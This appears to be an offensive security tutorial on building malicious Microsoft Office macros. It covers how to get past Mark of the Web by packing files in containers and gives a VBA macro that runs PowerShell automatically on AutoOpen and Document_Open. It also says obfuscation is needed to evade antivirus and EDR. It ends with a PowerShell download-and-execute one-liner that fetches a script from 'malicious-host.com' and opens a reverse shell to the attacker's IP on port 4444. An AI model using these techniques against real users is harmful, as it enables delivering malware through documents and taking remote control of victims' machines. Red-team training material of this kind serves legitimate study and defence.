






# Malicious Macros

## Macros

Microsoft Office applications allow us to embed macros, which are commands and instructions that complete a task. This can be linking documents, loading libraries, or other legitimate tasks that help companies manage their programs.

Macros are one of the oldest and best-known client-side attack vectors.

## Introduction - Theory & Goals.

The threat landscape for Microsoft Office is relatively vast.&#x20;

<figure><figcaption></figcaption></figure>

I won't be including the steps on installing Office, though I might add a VM Image here in the future that includes a free trial for us to use.


## Mark Of The Web (MOTW) - Zone Identifier Alternate Data Stream &#x20;

Zone Identifier Alternate Data Stream's are information on a the origins of a file. This is used by administrators and system monitoring tools to protect users from possible malicious software.

_**Windows Defender Smartscreen**_

<figure><figcaption></figcaption></figure>

_**Microsoft Office**_

<figure><figcaption><p>Microsoft Excel includes an "Enable" switch for macros.</p></figcaption></figure>

<figure><figcaption><p>Microsoft Word blocks Macros entirely.</p></figcaption></figure>

## Bypassing MOTW

Luckily for us, it's Microsoft we're targeting. So there are plenty of ways to bypass this.

### Containerizing Files

We can avoid being flagged by MOTW by using **7zip**, **ISO**, **IMG**, and other containerized file formats.


## Building a Malicious Office Macro

We will start by creating an empty Office Word document and navigating to View -> Macro.

<figure><figcaption></figcaption></figure>

We go Macro -> Document Name -> Create.

<figure><figcaption></figcaption></figure>

We are brought to the Visual Basic for Applications IDE.

<figure><figcaption></figcaption></figure>

We can Instantiate and Invoke a Windows Script with CreateObject. In this example we run PowerShell.&#x20;

We specify AutoOpen() and Document\_Open() to automatically run the macro when the office document is opened.

<pre class="language-visual-basic"><code class="lang-visual-basic">Sub AutoOpen()

  dangerousMacro
  
End Sub

Sub Document_Open()

  dangerousMacro
  
End Sub

<strong>Sub dangerousMacro()
</strong>
  CreateObject("Wscript.Shell").Run "powershell"
  
End Sub
</code></pre>


### Essential Techniques

Like any successful malware, proper obfuscation techniques is essential for bypassing AV / EDR. View "Malware Development" for more resources.


_**Fetch From Web Server:**_

```
IEX(New-Object System.Net.WebClient).DownloadString('http://malicious-host.com/badass_script.ps1');badass_script -c <our-ip> -p 4444 -e powershell
```

